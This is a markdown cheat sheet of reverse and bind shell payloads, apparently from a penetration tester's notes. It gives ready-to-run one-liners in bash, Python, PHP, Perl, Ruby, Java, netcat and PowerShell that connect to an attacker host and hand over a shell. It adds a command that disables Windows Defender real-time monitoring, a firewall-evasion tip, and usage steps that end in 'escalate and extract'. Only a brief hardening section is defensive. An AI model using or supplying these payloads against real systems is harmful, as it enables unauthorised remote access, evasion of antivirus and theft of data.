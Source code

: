 ```yaml
---
title: Reverse Shells
category: Access
tags: [shell, netcat, exploit]
tools: ['nc', 'netcat', 'ncat']
---
```


# Reverse Shells

## Listener Setup & Shell Stabilisation

### Start Listener
```bash
nc -lvnp <PORT>
```

### Bash Shell Stabilization (after connection)
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Then:
Ctrl-Z
stty raw -echo;fg
export TERM=xterm

# If needed
stty rows $(tput lines) columns $(tput cols)
clear
```

---

## Bind Shell

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

```bash
# Target Server
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

# Connect from box
ncat 10.0.0.1 4242 -e /bin/bash

```

## Bash Reverse Shell

```bash
# Target
/bin/bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
```

---

## Python Reverse Shell
```bash
python -c 'import socket,os,subprocess;
s=socket.socket();s.connect(("<ATTACKER_IP>",<PORT>));
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
subprocess.call(["/bin/sh","-i"]);'
```

---

## PHP Reverse Shell
```php
php -r '$sock=fsockopen("<ATTACKER_IP>",<PORT>);
exec("/bin/sh -i <&3 >&3 2>&3");'
```

---

## Perl Reverse Shell
```perl
perl -e 'use Socket;
$i="<ATTACKER_IP>";$p=<PORT>;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");
  exec("/bin/sh -i");
};'
```

---

## Ruby Reverse Shell
```ruby
ruby -rsocket -e 'exit if fork;
c=TCPSocket.new("<ATTACKER_IP>","<PORT>");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

---

## Java Reverse Shell
```java
r = Runtime.getRuntime();
p = r.exec(new String[]{
  "/bin/bash","-c",
  "exec 5<>/dev/tcp/<ATTACKER_IP>/<PORT>;" +
  "cat <&5 | while read l; do $l 2>&5 >&5; done"
});
p.waitFor();
```

---

## Netcat Reverse Shell
```bash
rm /tmp/f; mkfifo /tmp/f;
cat /tmp/f | /bin/sh -i 2>&1 | nc <ATTACKER_IP> <PORT> >/tmp/f
```

---

## PowerShell Reverse Shell (Windows)
```powershell
$sm=(New-Object Net.Sockets.TCPClient("<ATTACKER_IP>",<PORT>)).GetStream();
[byte[]]$bt=0..255|%{0};
while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){
  $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);
  $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));
  $sm.Write($st,0,$st.Length)
}
```

## Simple Reverse Shell in Windows

Bind to common port 443 to avoid firewall restrictions

```bash
# Server setup
sudo nc -lvnp 443
```

```powershell
# Payload on target, RCE cmd.exe
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.178',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

# Dissable A/V if needed as admin
Set-MpPreference -DisableRealtimeMonitoring $true

```

---

## Hardening / Detection Notes
- Outbound firewall filtering helps prevent shell callbacks.
- Remove common interpreters (`bash`, `python`, `php`) when not needed.
- Use detection rules for outbound socket behavior and reverse shell signatures.
- Proper input sanitization and secure coding are the best defenses.

---

**Usage**:
1. Set up listener.
2. Inject the payload.
3. Stabilize shell (if Linux).
4. Escalate and extract.